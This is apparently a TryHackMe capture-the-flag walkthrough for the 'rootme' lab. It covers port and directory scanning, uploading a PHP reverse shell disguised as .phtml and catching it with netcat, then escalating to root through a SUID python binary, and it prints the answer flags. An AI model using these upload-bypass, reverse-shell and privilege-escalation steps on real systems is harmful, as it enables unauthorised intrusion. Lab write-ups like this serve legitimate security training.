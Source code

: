 # Reconnaissance

### Scan the machine, how many ports are open?
```
┌──(root💀kali)-[~]
└─# nmap -Pn <machine ip>
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```
> *Answer:* 2

### What version of Apache is running?
```
┌──(root💀kali)-[~]
└─# nmap -sV <machine ip>
...
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
...
```
> *Answer:* 2.4.29

### What service is running on port 22?
> *Answer:* ssh

### What is the hidden directory?
```
┌──(root💀kali)-[~]
└─# dirsearch -u "http://<machine ip>/"
...
[01:06:56] 200 -  732B  - /panel/
[01:07:21] 200 -  742B  - /uploads/
...
```
> *Answer:* /panel/


<br><br>
# Getting a shell

### user.txt
```
┌──(root💀kali)-[~]
└─# curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php --output php-reverse-shell.php
```
To gain remote access to this machine, follow these steps:
  1. Edit the php-reverse-shell.php file and edit the ip to be your tun0 ip (you can get this by going to http://10.10.10.10 in the browser of your TryHackMe connected device).
  2. Rename this file to php-reverse-shell.phtml
  3. We're now going to listen to incoming connections using netcat. Run the following command: <b>nc -lvnp 1234</b>
  4. Upload your shell and navigate to <b>http://&lt;machine ip&gt;/uploads/php-reverse-shell.phtml&nbsp;</b> - This will execute your payload
  5. You should see a connection on your netcat session
```
┌──(root💀kali)-[~]
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.39.82] 47886
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:16:30 up 17 min,  0 users,  load average: 0.00, 0.26, 0.58
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
> *Answer:* THM{y0u_g0t_a_sh3ll}


<br><br>
# Privilege escalation

### Search for files with SUID permission, which file is weird?
```
$ find / -perm -u=s -type f 2> /dev/null
...
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```
> *Answer:* /usr/bin/python

### root.txt
[GTFOBins](https://gtfobins.github.io/)
```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

<h1 align="center">
  <img src="https://i2.wp.com/media4.giphy.com/media/mQG644PY8O7rG/giphy.gif" style="max-width:600px;">
</h1>

```
ls /root
root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n} 
```
> *Answer:* THM{pr1v1l3g3_3sc4l4t10n}


